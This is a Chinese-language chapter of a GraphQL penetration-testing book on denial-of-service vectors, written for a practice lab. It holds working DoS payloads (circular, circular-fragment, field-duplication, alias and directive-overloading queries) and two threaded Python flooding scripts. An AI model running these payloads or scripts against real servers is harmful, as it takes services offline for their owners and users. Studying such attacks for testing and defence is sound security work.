









# 拒绝服务攻击


DoS 问题是当今 GraphQL 中最普遍的漏洞类型之一。在本章中，你将学习 GraphQL 的声明式查询语言如何也可能成为它的阿基里斯之踵。我们将识别出如果应用开发者未实现有效的安全防御措施，可能会导致服务器资源耗尽的 DoS 攻击机会。

尽管 DoS 漏洞在渗透测试报告或奖励计划中通常不被归类为关键漏洞，但它们在 GraphQL 应用中足够常见，因此无论是从攻击者的角度，还是作为防御者，都有必要熟悉它们。

## GraphQL DoS 攻击向量

GraphQL 的一大亮点功能是其声明式查询语言，允许客户端从服务器请求非常复杂的数据结构。这个功能使客户端处于强势地位，因为客户端可以选择服务器应该返回的响应。鉴于这种能力，GraphQL 服务器必须具备保护自己免受来自不可信客户端的恶意查询的能力。如果客户端构造出一个服务器处理起来非常昂贵的查询，它可能会耗尽服务器资源。此类攻击可能会通过导致停机或降低服务器性能来影响应用的可用性。

在 GraphQL 的世界中，几个 DoS 向量可能会导致资源耗尽的情况：循环查询（也称为 *递归查询*）、字段重复、别名重载、指令重载、循环片段和对象数量限制覆盖。在本章中，你将了解每种漏洞、如何在渗透测试中测试它们，以及如何使用 DoS 利用代码来滥用它们。在章节的最后，我们将讨论试图缓解这些威胁的安全控制措施。

*常见弱点枚举（CWE）*系统将这些类型的 DoS 攻击向量归类为 *无控制的资源消耗*。滥用这些向量可能导致过度消耗中央处理器（CPU）周期、显著的服务器内存使用，或填满磁盘空间，从而阻止其他进程写入文件系统。以下是一些示例，说明客户端如何构造查询以触发这些条件：

+   客户端发送一个包含一个复杂查询的单一请求。

+   客户端发送一个包含多个复杂查询的单一请求。

+   客户端发送多个并行请求，每个请求包含一个复杂查询。

+   客户端发送多个并行请求，每个请求包含多个复杂的查询。

+   客户端向服务器请求大量对象。

某些 DoS 向量的出现，部分原因是一些 GraphQL 实现中引入的附加功能，这些功能可能作为基础安装包的一部分或作为附加库引入，而其他向量则存在于原生的 GraphQL 功能中。

## 循环查询

也称为*递归查询*，*循环查询*发生在 GraphQL 架构中的两个节点通过边相互引用时。这种循环引用可能导致客户端构建复杂的查询，每次查询完成一个“循环”时，服务器返回一个指数级增长的响应。

在本节中，我们将深入探讨循环关系以及它们在 GraphQL 架构中的表现方式。我们将使用多种工具，如架构可视化工具 GraphQL Voyager、Altair、InQL 和 GraphQL Cop，来识别有风险的设计模式，并测试我们的目标应用程序是否存在这些漏洞。

### GraphQL 架构中的循环关系

GraphQL 的 SDL 允许我们定义多个类型来表示应用程序的数据模型。这些类型可以以某种方式互相连接，使得客户端可以在它们之间“跳跃”，如果它们是相互链接的。这种条件被称为*循环关系*或*循环引用*。

例如，在前面的章节中，我们提到 DVGA 目标应用程序允许用户创建代码片段（称为*粘贴*）并将其上传到应用程序中。一个粘贴可能包含标题和一些内容（如代码或其他任意文本）。在 GraphQL 的 SDL 中，这些信息可以按以下方式表示：

```
type Paste {
  title: String
  content: String
}
```

目前这些信息是相当有限的。如果我们想扩展我们的应用程序，使得当客户端上传粘贴内容时，我们能够识别是哪一个客户端上传的呢？例如，我们可以捕获一些关于上传者的元数据，如他们的 IP 地址或用户代理字符串。

目前，我们的数据模型并没有按照允许在 API 中表示这种类型信息的方式进行结构化，但扩展它是一个相对简单的过程。我们可以通过以下方式向`Paste`对象添加额外的字段：

```
type Paste {
  title: String
  content: String
 **user_agent: String**
 **ip_address: String**
}
```

另一种实现这一目标的方式是将客户端的元数据与`Paste`对象解耦。我们可能会出于多个原因选择这样做，比如更好地分离关注点，以及能够独立扩展 GraphQL 类型。我们可以创建一个单独的类型，叫做`Owner`：

```
type Owner {
  ip_address: String
  user_agent: String
  name: String
}
```

我们现在有两个对象类型，`Paste`和`Owner`。如果我们想要揭示某个粘贴的所有者，我们可以将这两个类型连接在一起。我们可以做出类似以下的架构调整，为`Paste`类型添加一个名为`owner`的字段，引用`Owner`类型：

```
type Paste {
  title: String
  content: String
  user_agent: String
  ip_address: String
 **owner: Owner**
}
```

现在，客户端可以请求有关粘贴的所有者信息，比如所有者的 IP 地址或用户代理。清单 5-1 展示了完整的示例架构。

```
type Paste {
    title: String
    content: String
    user_agent: String
    ip_address: String
    owner: Owner
}

 type Owner {
    ip_address: String
    user_agent: String
    pastes: [Paste]
    name: String
}
```

清单 5-1：架构中的循环引用

这两个对象类型，`Paste`和`Owner`，有相互引用的字段。`Paste`对象类型有一个`owner`字段，引用`Owner`对象，而`Owner`类型有一个`pastes`字段，引用`Paste`类型。这就形成了一个循环条件。

恶意客户端可能通过强制 GraphQL 服务器的函数解析器进行循环，从而引发递归。这可能会影响服务器的性能。以下查询示例展示了这样的循环查询是如何呈现的：

```
query {
  pastes {
    owner {
      pastes {
        owner {
          pastes {
            owner {
              name
            }
          }
 }
      }
    }
  }
}
```

这个查询执行起来很简单，但会导致 GraphQL 服务器返回一个指数级增长的响应。查询中的循环越多，响应就越大。

圆形关系在 GraphQL API 中很常见。在模式设计中，这并不算反模式，但除非应用能够优雅地处理复杂查询，否则应该避免使用。

### 如何识别循环关系

识别循环查询通常需要对 GraphQL 模式有深入了解。在白盒渗透测试中，我们可能可以访问 SDL 文件。在黑盒渗透测试中，我们可能会幸运地发现应用程序的开发人员启用了自省功能。

在任何情况下，你都应该使用静态代码分析方法审查模式文件，检查对象之间的双向关系，或通过将自省查询的结果导入到像 GraphQL Voyager 这样的模式可视化工具中来进行分析。此外，某些专门的 GraphQL 安全工具，如 InQL，尝试以更动态的方式发现循环关系，方法是发现模式并分析其类型及其关系。

#### 使用模式定义语言文件

让我们对一个示例 SDL 文件进行安全审查，以识别异常。请参考书中 GitHub 仓库中的模式文件 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/sdl.graphql`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/sdl.graphql)。这个 SDL 文件是 DVGA 的模式表示，定义了所有查询、变更和订阅，其中还包括对象类型和字段。

将模式文件下载到实验室计算机上，方法是将其复制并保存为名为 *sdl.graphql* 的文件。然后在文本编辑器中打开该文件进行查看。在我们强调问题所在之前，尝试找出任何导致双向对象关系的关系字段。

以下摘录展示了具有双向引用的对象：

```
type PasteObject {
  `--snip--`
  id: ID!
  ipAddr: String
  ownerId: Int
 burn: Boolean
❶ owner: OwnerObject
  `--snip--`
}

type OwnerObject {
  id: ID!
  name: String
❷ paste: [PasteObject]
  `--snip--`
}
```

模式定义了 `PasteObject` 中 `owner` 字段的自定义类型 `OwnerObject` ❶。然后定义了类型为 `[PasteObject]` 的 `paste` 字段 ❷。`[PasteObject]` 中的方括号表示 `PasteObject` 类型的对象数组。如你所见，这些对象相互交叉引用，使用这些类型的客户端可能会滥用它们进行拒绝服务攻击（DoS）。

#### 使用 GraphQL Voyager

小型 SDL 文件易于审查。SDL 文件越大，识别反模式和手动审计安全问题就越具挑战性。让我们可视化一个模式，这个技巧可以在审计更大且更复杂的模式定义时提供帮助。

将你之前下载的 SDL 文件上传到 GraphQL Voyager（托管在 [`lab.blackhatgraphql.com:9000`](http://lab.blackhatgraphql.com:9000) 或者 [`ivangoncharov.github.io/graphql-voyager`](https://ivangoncharov.github.io/graphql-voyager)）中，通过点击 **更改模式** 按钮并将 SDL 文件复制到 **SDL** 标签下的框中。图 5-1 显示了 Voyager 如何展示 `PasteObject` 和 `OwnerObject` 之间的循环引用关系。



图 5-1：GraphQL Voyager 中的对象关系

GraphQL Voyager 会高亮显示自定义对象类型，如 `OwnerObject` 和 `PasteObject`，并使用箭头指示对象关系。当你识别到这种关系时，假设该应用程序存在漏洞，直到你执行测试来检查其防止循环查询的能力。

你也可以将 Voyager 中的 introspection 响应输出粘贴进去，以生成与之前章节相同的模式可视化表示。

#### 使用 InQL

识别循环查询的另一种方法是使用 InQL 安全审计工具。我们在第二章中已在实验中安装了 InQL。InQL 的主要功能之一是能够自动检测循环关系。InQL 可以通过命令行读取由 introspection 查询生成的 JSON 文件。或者，如果目标 GraphQL 服务器支持 Introspection，它也可以直接发送 introspection 查询。

让我们使用 Altair 运行一个 introspection 查询。我们将把响应保存为 JSON 文件存储在我们的文件系统中，这样 InQL 就可以读取、解析并遍历模式，查找循环关系。

在你的实验机上，打开 Altair，并将地址栏中的 URL 设置为 ***http://localhost:5013/graphql***。复制位于 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/queries/introspection_query.txt`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/queries/introspection_query.txt) 的 introspection 查询，并将其粘贴到 Altair 中（图 5-2）。然后点击 **发送请求** 将查询发送到 DVGA。



图 5-2：Altair 中的 introspection 查询

一旦成功返回响应，点击 Altair 右下角的 **下载** 按钮，将响应以 JSON 格式下载。将文件保存为 *introspection_query.json*，并存储在主文件夹 */home/kali* 下。

接下来，打开终端。为了执行循环查询检查，我们将传递三个标志给 InQL：`-f` 标志，用于使用我们下载的 JSON 文件；`--generate-cycles` 标志，用于执行循环查询检测检查；以及 `-o` 标志，用于将输出写入指定的文件夹。以下命令将这些标志组合起来执行循环查询检测：

```
# inql -f /home/kali/introspection_query.json --generate-cycles -o dvga_cycles
[!] Parsing local schema file
[+] Writing Introspection Schema JSON
[+] Writing query Templates
Writing systemUpdate query
Writing pastes query
[+] Writing mutation Templates
Writing createPaste mutation
[+] Writing Query Cycles to introspection_query
[+] DONE
```

检查完成后，你会注意到 InQL 创建了一个*dvga_cycles*文件夹。在此文件夹中，寻找一个以*cycles*为开头的文本文件；该文件将包含脚本执行的结果。你可以运行以下命令查看检查结果：

```
# cat dvga_cycles/introspection_query/cycles*

Cycles(
        { OwnerObject -[paste]-> PasteObject -[owner]-> OwnerObject }
        { OwnerObject -[pastes]-> PasteObject -[owner]-> OwnerObject }
)
```

InQL 能够在架构中找到存在循环关系的路径，特别是在`PasteObject`和`OwnerObject`节点之间。在背后，InQL 通过两种主要的图算法遍历 JSON 文件：

+   *Tarjan 算法*，以其发明者 Robert Tarjan 命名，用于查找图中的循环关系，其中节点通过边连接，每条边都有一个方向。

+   *Johnson 算法*，以其发明者 Donald B. Johnson 命名，用于查找图中每一对节点之间的最短路径。

InQL 还可以通过直接连接到 GraphQL API 并获取内部信息来运行相同的检查。为此，使用`-t`标志来指定目标：

```
# inql -t http://localhost:5013/graphql --generate-cycles -o dvga_cycles
[+] Writing Introspection Schema JSON
[+] DONE
Writing pastes query
[+] Writing mutation Templates
Writing importPaste mutation
[+] DONE
[+] Writing Query Cycles to localhost:5013
```

`-t`选项允许我们在有多个主机列表需要测试时，扩展此检查。示例 5-2 展示了如何将主机添加到名为*hosts.txt*的文件中。

```
# cd ~
# echo 'http://localhost:5013/graphql' > hosts.txt
# cat hosts.txt
http://localhost:5013/graphql
```

示例 5-2：包含目标 GraphQL 服务器的文件

示例 5-3 展示了如何编写一个 Bash 循环，通过读取*hosts.txt*文件测试多个主机。

```
for host in $(cat hosts.txt); do
    inql -t "$host" --generate-cycles
done
```

示例 5-3：一个 Bash `for`循环，用于遍历目标主机并对每个主机运行 InQL

`for`循环将逐行读取*hosts.txt*文件，并将每一行分配给`host`变量。InQL 将使用这个变量作为目标。这个技术使我们能够以自动化的方式测试多个 URL。

如果你尝试在大型应用程序上运行 InQL，建议使用`--cycles-timeout`标志来设置循环检查的超时时间。这样可以确保在查找循环查询时，如果目标架构较大，应用程序不会挂起。

### 循环查询漏洞

现在你知道如何通过多种工具识别循环查询，让我们看看发送一个循环查询会如何影响 DVGA 应用程序。我们将构造一个特别的 GraphQL 查询，利用我们发现的循环关系，执行一个深度递归请求。

成功的循环查询会导致服务器负载过重，甚至可能崩溃。因此，测试循环查询可能存在风险。为了安全起见，我们将提供循环查询的安全版和不安全版。安全版的循环性会比不安全版少，因此你可以在实验室中安全地进行实验，而不会导致目标崩溃。

打开 Altair 并复制来自[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/safe-circular-query.graphql`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/safe-circular-query.graphql)的*safe-circular-query.graphql*文件。示例 5-4 展示了这个查询。

```
query {
  pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
}
```

示例 5-4：GraphQL 中的递归查询

正如其名称所示，*safe-circular-query.graphql* 是循环查询的更安全版本。在此查询中，我们请求应用程序上所有粘贴的所有者名称，只不过我们是在循环中执行此操作，这会指数级地增加 GraphQL 服务器需要加载的对象数量。将查询粘贴到 Altair 中，并在服务器上运行它，以证明循环查询的概念。

### 循环 introspection 漏洞

GraphQL 内建的 introspection 系统中存在循环关系。因此，当启用 introspection 时，你可能会直接接触到一个循环查询。

introspection 系统有其自己的模式，在官方的 GraphQL 规范文档中进行了定义。以下是其中的摘录：

```
type __Schema {
  `--snip--`
  types: ❶ [__Type!]!
  queryType: __Type!
  mutationType: __Type
  subscriptionType: __Type
  directives: [__Directive!]!
  `--snip--`
}

type ❷ __Type {
  `--snip--`
  name: String
  description: String
  fields(includeDeprecated: Boolean = false): ❸ [__Field!]
  `--snip--`
}

type ❹ __Field {
  `--snip--`
  name: String!
  description: String
  args: [__InputValue!]!
  type: ❺ __Type!
  isDeprecated: Boolean!
  `--snip--`
}
```

在 ❶ 处，定义了 `__Schema` 对象类型的 `types` 字段。你可以看到 `types` 被设置为 `[__Type!]`，这意味着它使用了在 ❷ 处定义的 `__Type` 对象。方括号和感叹号表示 `types` 字段将返回一个非空的 `__Type` 对象数组。

`__Type` 对象有一个名为 `fields` 的字段，设置为 ❸，类型为 `[__Field!]`。这将返回一个非空的数组，包含 `__Field` 对象。在 ❹ 处，定义了 `__Field` 类型。此类型有一个名为 `type` 的字段，位于 ❺，引用了 `__Type` 对象。正如你所看到的，我们在 `__Type.fields` 和 `__Field.type` 之间有一个循环关系。

你可以通过在 Altair 中运行以下查询来轻松测试这种循环关系：

```
query {
  __schema {
    types {
      fields {
        type {
          fields {
            type {
              fields {
                name
              }
            }
          }
        }
      }
    }
  }
}
```

这样的循环查询相对容易被利用。虽然单个查询可能无法使服务器崩溃，但一系列复杂的查询有可能会影响服务器的性能。

### 循环片段漏洞

如第三章所述，GraphQL 操作可以通过使用片段共享逻辑。片段由客户端定义，因此客户端可以将其所需的任何逻辑构建到片段中。也就是说，GraphQL 规范文档包含了有关片段如何实现的规则，包括以下这一条：

> 片段传播的图形不能形成任何循环，包括自我传播。否则，某个操作可能会无限传播或在底层数据中无限执行循环。

让我们探索如何构建片段来形成循环并导致拒绝服务（DoS）。在 DVGA 中，运行以下查询，使用名为 `Start` 的片段在 `PasteObject` 对象上。`pastes` 字段使用 `...Start` 语法来引用此片段：

```
query {
  pastes {
 **...Start**
  }
}

fragment **Start** on **PasteObject** {
  title
  content
}
```

当查询被执行时，它会返回 `pastes` 的 `field` 和 `content` 字段：

```
"pastes": [
  {
    "title": "My Title",
    "content": "My First Paste"
  }
]
```

现在，如果我们添加另一个名为 `End` 的片段，它使用了 `Start` 片段，并且修改 `Start` 片段以使用 `End` 片段，会发生什么呢？这里会出现一个有趣的条件：

```
query CircularFragment {
  pastes {
    **...Start**
  }
}

fragment **Start** on PasteObject {
  title
  content
  **...End**
}

fragment **End** on PasteObject {
  **...Start**
}
```

这个条件导致了无限执行，正如 GraphQL 规范所建议的那样。尝试在实验室中对这个查询进行实验。

如果你运行了查询，你应该已经看到服务器崩溃了！你可能会想，所有的 GraphQL 服务器都容易受到这种攻击吗？简短的回答是，不是的，如果 GraphQL 服务器符合规范的话。一个符合规范的 GraphQL 服务器应该在执行查询前拒绝这种类型的查询。不过，你永远不知道在渗透测试中何时会遇到完全定制的实现，因此了解这种技术是值得的。

## 字段重复

*字段重复*漏洞指的是包含重复字段的查询。它们易于执行，但不如循环查询有效。

虽然循环查询是小型查询，但它会导致异常大的响应，字段重复则是大型查询，因处理和解析所需的时间会耗尽服务器资源。为了有效地通过使用字段重复来滥用 GraphQL API，你必须不断发送查询，以保持服务器资源的持续占用。

### 理解字段重复如何工作

要理解字段重复如何工作，可以参考以下的 GraphQL 查询：

```
query {
  pastes {
     title
     content
  }
}
```

这个查询返回应用程序中所有粘贴的 `title` 和 `content` 字段。当 GraphQL 接收到这个查询时，它将使用查询解析器来提供每个请求的字段。

如果我们在查询中“填充”额外的字段，GraphQL 将被迫分别解析每个字段。这种行为可能会增加服务器的负担，导致性能下降，甚至完全崩溃。

这里的策略相当简单：选择一个你认为可能需要较多资源来解析的字段，并将查询填充上该字段名称的额外副本。列表 5-5 展示了一个示例查询。

```
query {
  pastes {
     title
     content
     content
     content
     content
     content
  }
}
```

列表 5-5：包含重复字段的 GraphQL 查询

当查询包含多个重复字段时，像列表 5-5 中那样，其中 `content` 被重复了五次，你可能会期待在响应中看到这五个相同的字段。实际上，GraphQL 会将响应合并，只显示一个 `content` JSON 字段：

```
{
  "data": {
    "pastes": [
      {
        "title": "My Title",
        "content": "My First Paste"
      }
    ]
  }
}
```

从客户端的角度来看，可能会觉得 GraphQL 忽略了我们重复的字段。幸运的是，事实并非如此。通过响应时间分析，你可以看到查询对服务器的影响。除非服务器已实现特定的安全防御措施，例如查询成本分析（本章后续会介绍），否则你应该期望在大多数 GraphQL 实现中看到这些漏洞。

### 测试字段重复漏洞

为了在我们的实验室中测试字段重复攻击，我们将编写一个简单的查询，并尝试重复几个选定的字段，看看目标如何响应。

打开 Altair，并确保地址栏设置为 *http://localhost:5013/graphql*。在左侧面板中，输入以下查询，它将作为基准：

```
**query {**
 **pastes {**
 **content**
 **}**
**}**
```

点击**发送**来查询 GraphQL。在响应部分，你会注意到 Altair 提供了服务器响应所需的总时间（以毫秒为单位），如图 5-3 所示。

DVGA 响应查询的时间为 26 毫秒，这是一个正常的响应时间。你在实验室中可能看到的时间会有所不同，但应该在同一数量级内。



图 5-3：Altair 响应时间指示器

接下来，复制来自[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/field-duplication.graphql`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/field-duplication.graphql)的查询，将其粘贴到 Altair 中并运行。该查询包含大约 1,000 个`content`字段。图 5-4 显示，处理此查询需要 958 毫秒，比正常慢了 36 倍！



图 5-4：查询重复字段的响应时间较慢

有些字段在解析时需要更多的资源，因此性能影响可能会根据选择的字段而有所不同。

这个攻击要求客户端不断发送大型有效载荷。试图手动利用字段重复可能会很麻烦。作为一种替代方法，你可以使用一个特殊的 Python 漏洞，尝试在更大规模上执行字段重复攻击。清单 5-6 展示了这种漏洞的代码片段。它向远程服务器发送连续的查询流，以消耗其资源。

```
THREADS = 50

❶ payload = 'content \n title \n' * 1000
❷ query = {'query':'query { \n ' + payload + '}'}

❸ def DoS():
    try:
      r = requests.post(GRAPHQL_URL, json=query)
      print('Time took: {} seconds '.format(r.elapsed.total_seconds()))
      print('Response:', r.json())
    except Exception as e:
      print('Error', e.message)

❹ while True:
    print('Running...')
    time.sleep(2)
    for _ in range(THREADS):
      t = threading.Thread(target=DoS, args=())
      t.start()
```

清单 5-6：字段重复漏洞

这段代码创建了一个动态的`payload`变量❶，其中包含两个重复的字段：`content`和`title`，每个字段重复了 1,000 次。在❷处，它将`payload`与`query` JSON 变量连接起来。然后，它定义了一个名为`DoS`的函数，负责发送包含我们恶意 GraphQL 查询的 HTTP POST 请求❸。我们运行一个无限的`while`循环，每两秒执行一次`DoS`函数，使用 50 个线程❹。完整的漏洞代码可以在 GitHub 上找到，链接为[`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_threaded_field_dup.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_threaded_field_dup.py)。

你可以下载这个漏洞，并使用以下命令在 DVGA 上运行它。请注意，在运行时，你的机器可能会出现性能下降：

```
# python3 exploit_threaded_field_dup.py http://localhost:5013/graphql
```

由于该漏洞使用了无限循环，它不会自行停止；你可以通过按下 CTRL-C 发送*SIGINT*信号来终止它。

## 别名重载

在第三章中，你学习了如何使用别名重命名重复的字段，以便 GraphQL 服务器将它们视为两个不同的查询。在单个 HTTP 请求中运行多个查询的能力非常强大。安全分析人员在寻找可疑流量时很容易忽视这些单独的请求（WAF 也可能忽视）。毕竟，他们可能会想，一个单一的 HTTP 请求能造成什么 harm 呢？

默认情况下，GraphQL 服务器不会限制单个请求中可以使用的别名数量。GraphQL 应用程序的维护者可以实施自定义保护措施，例如计数别名并在某些中间件中限制它们，但由于别名是 GraphQL 规范的一部分，因此删除对它们的支持或限制其功能并不常见。

### 利用别名进行拒绝服务攻击

在进行渗透测试时，你可能会遇到处理时间比其他查询长的查询。如果你识别出这样的查询，可以通过反复调用相同的查询来占用系统资源。如果服务器难以快速返回响应，持续用相同查询淹没服务器可能会导致系统超载。

在 DVGA 中，有一个特定的查询比其他查询要慢：`systemUpdate`。该查询旨在模拟长期运行的命令，例如执行系统更新的命令。未经授权的客户端永远不应被允许执行更改系统状态的查询，但在真实的渗透测试场景中，没有什么是不可能的！让我们在 Altair 中运行 `systemUpdate` 查询，看看此命令完全处理需要多长时间。它不需要任何参数，如下所示：

```
**query {**
 **systemUpdate**
**}**
```

将此查询发送到服务器，并观察服务器返回响应所需的时间（图 5-5）。



图 5-5：`systemUpdate` 查询响应时间

`systemUpdate` 查询花费了 50,361 毫秒完成，大约 50 秒，这在今天的 Web 标准下是相当长的时间。这是我们可能利用来进行拒绝服务（DoS）攻击的查询示例。

使用 GraphQL 别名，我们可以尝试多次运行 `systemUpdate` 以观察服务器的行为。列表 5-7 显示了如何使用别名运行多次 `systemUpdate`。

```
query {
  one:systemUpdate
  two:systemUpdate
  three:systemUpdate
  four:systemUpdate
  five:systemUpdate
}
```

列表 5-7：别名化 `systemUpdate` 查询

在 Altair 中运行此查询应该会比正常情况更长时间完成。

如果你需要生成数百个查询，可以在终端中使用简短的 Python 脚本以编程方式构建查询，如列表 5-8 所示。

```
# python3 -c 'for i in range(0, 10): print("q"+str(i)+":"+"systemUpdate")'

q0:systemUpdate
q1:systemUpdate
q2:systemUpdate
```

列表 5-8：使用 Python 生成别名

请记住：默认情况下，客户端提供的别名数量没有限制，除非应用程序维护者已针对这些类型的攻击实施了特定保护措施，或者 Web 服务器设置了 HTTP 请求体长度限制。这意味着我们可以在单个 HTTP 请求中指定数十个别名并占用服务器资源。

在渗透测试中，别名还有其他有趣的非拒绝服务（DoS）用途，例如绕过认证机制。你将在第七章中学习更多相关内容。

### 链式别名与循环查询

由于别名是 GraphQL 规范的一部分，任何你识别出的其他漏洞都可以与别名结合使用。列表 5-9 中的查询展示了如何使用别名运行循环查询。

```
query {
  q1:pastes {
    owner {
      pastes {
        owner {
          name
        }
      }
    }
  }
  q2:pastes {
    owner {
      pastes {
        owner {
 name
        }
      }
    }
  }
}
```

列表 5-9：带有别名的循环查询

这个查询的递归性不足，不足以对 GraphQL 服务器造成任何危害，但它展示了在单个 GraphQL 文档中进行多个循环查询的可能性。

别名的缺点在于它们只允许别名相同根类型的查询。你只能将查询与查询别名，或将突变与突变别名，但不能将查询和突变一起别名。

## 指令重载

第三章介绍了 GraphQL 指令，它们是通过使用@符号装饰 GraphQL 字段或对象的一种方式。尽管指令是 GraphQL 规范的一部分，但该规范并未讨论应为指令实现的安全控制。通常，GraphQL 实现会检查客户端是否重复了查询指令；如果是，服务器会拒绝该查询。指令的典型检查包括：

+   `UniqueDirectivesPerLocation`确保每个文档位置（例如字段）中只有唯一的指令。

+   `UniqueDirectiveNames`确保如果在像字段这样的某个位置提供了多个指令，则这些指令具有唯一的名称。

然而，可以多次提供不存在的查询。在今天大多数流行的 GraphQL 实现中，客户端提供的不存在的指令数量实际上没有限制。

我们的研究表明，通过在单个查询中传递大量不存在的指令，可能会耗尽 GraphQL 服务器的查询解析器。在我们对这个指令重载漏洞的负责任披露过程中，我们与多位 GraphQL 开发者进行了交流。关于是由维护者还是消费者来解决该漏洞，意见有很大分歧。参与披露过程并选择解决此问题的公司，通过限制服务器接受的指令数量或根据 HTTP 请求体的大小阻止查询来解决此问题。

### 滥用指令进行拒绝服务攻击

指令重载漏洞有点类似于字段重复，它需要我们通过多个连续请求发送许多指令。尽管比循环查询等漏洞需要更多的计算能力，但我们发现它在降低服务器性能方面非常有效。

攻击非常简单：将指令塞入查询的多个部分并发送到服务器，如列表 5-10 所示。

```
query {
   pastes {
      title @aa@aa@aa@aa # add as many directives as possible
      content @aa@aa@aa@aa
   }
}
```

列表 5-10：指令重载的示例

对服务器的影响可能会根据其硬件规格有所不同。我们在使用此利用技术时见过不同的服务器行为，例如 GraphQL 服务器崩溃（由于数据库内存错误）或服务性能下降。

### 测试指令重载

本书 GitHub 仓库中的攻击代码 [`github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py`](https://github.com/dolevf/Black-Hat-GraphQL/blob/master/ch05/exploit_directive_overloading.py) 利用这种漏洞，并可以用来对 DVGA 执行指令重载攻击。

在运行此脚本的任何时刻，你都可以按下 CTRL-C 来终止其操作，发送 *SIGINT* 信号。请注意，当脚本运行时，DVGA 可能会变得缓慢或无响应。

以下命令在命令行中运行攻击：

```
# python3 exploit_directive_overloading.py http://localhost:5013/graphql 30000
```

列表 5-11 显示了主要的攻击代码。

```
URL = sys.argv[1]
FORCE_MULTIPLIER = int(sys.argv[2])

def start_attack():
  payload = '@dos' * FORCE_MULTIPLIER
  query = {'query': 'query  { __typename ' + payload + ' }'}
  try:
    r = requests.post(URL, json=query, verify=False)
    print('\t HTTP Response', r.text)
    print('\t HTTP Code: '  , str(r.status_code))
  except:
    pass

threads = []

while True:
  time.sleep(2)
  start = time.time()
  start_attack()
  print(f'Time request took: {time.time() - start}')

  for i in range(300):
 t = threading.Thread(target=start_attack)
    threads.append(t)
    t.start()

